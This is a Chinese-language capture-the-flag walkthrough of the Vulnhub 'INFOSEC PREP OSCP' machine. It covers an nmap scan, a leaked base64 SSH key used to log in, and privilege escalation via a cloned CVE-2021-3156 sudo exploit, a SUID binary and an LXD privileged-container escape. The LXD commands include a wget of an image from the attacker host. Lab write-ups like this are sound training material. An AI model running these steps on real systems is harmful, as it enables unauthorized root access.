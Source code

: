 ```yaml
---

title: Vulnhub	508 INFOSEC PREP OSCP

---
```

考点：ssh证书认证

靶机链接：<https://www.vulnhub.com/entry/infosec-prep-oscp,508/>

## 环境配置

| 名称              | IP        |
| ----------------- | --------- |
| Kali Linux        | 10.0.2.15 |
| INFOSEC PREP OSCP | 10.0.2.19 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.19
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000

```

### WEB测试

#### dirb

确认80端口是wordpress

#### nikto

发现robots.txt存在secret.txt 

### 漏洞发现

一看secret.txt 的内容就是base64加密过的，解密得到ssh登录私钥

![1](https://static.iihack.com/vulnhub/508/1.png)

![2](https://static.iihack.com/vulnhub/508/2.png)

## 获得权限

查看网页获得用户名`oscp`

![3](https://static.iihack.com/vulnhub/508/3.png)

把base64解密后存为文件 `id_rsa`，登录成功

![4](https://static.iihack.com/vulnhub/508/4.png)

## 提权

### CVE-2021-3156

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

### suid

![5](https://static.iihack.com/vulnhub/508/5.png)

直接

![6](https://static.iihack.com/vulnhub/508/6.png)

### lxd/lxc

参考：<https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/>

现在kali上编译镜像包

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ sudo ./build-alpine 
```





不要在`/tmp`目录

```bash
-bash-5.0$ cd ~
-bash-5.0$ wget http://10.0.2.15/alpine-v3.16-x86_64-20220829_0227.tar.gz
#找lxc
-bash-5.0$ find / -name lxc > lxcsearch.txt
-bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-x86_64-20200719_2153.tar.gz --alias trenchesofit
-bash-5.0$ /snap/bin/lxc image list
-bash-5.0$ /snap/bin/lxc storage create pool dir
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool
-bash-5.0$ /snap/bin/lxc init trenchesofit ignite -c security.privileged=true
-bash-5.0$ /snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
-bash-5.0$ /snap/bin/lxc start ignite
-bash-5.0$ /snap/bin/lxc exec ignite /bin/sh

```

![7](https://static.iihack.com/vulnhub/508/7.png)
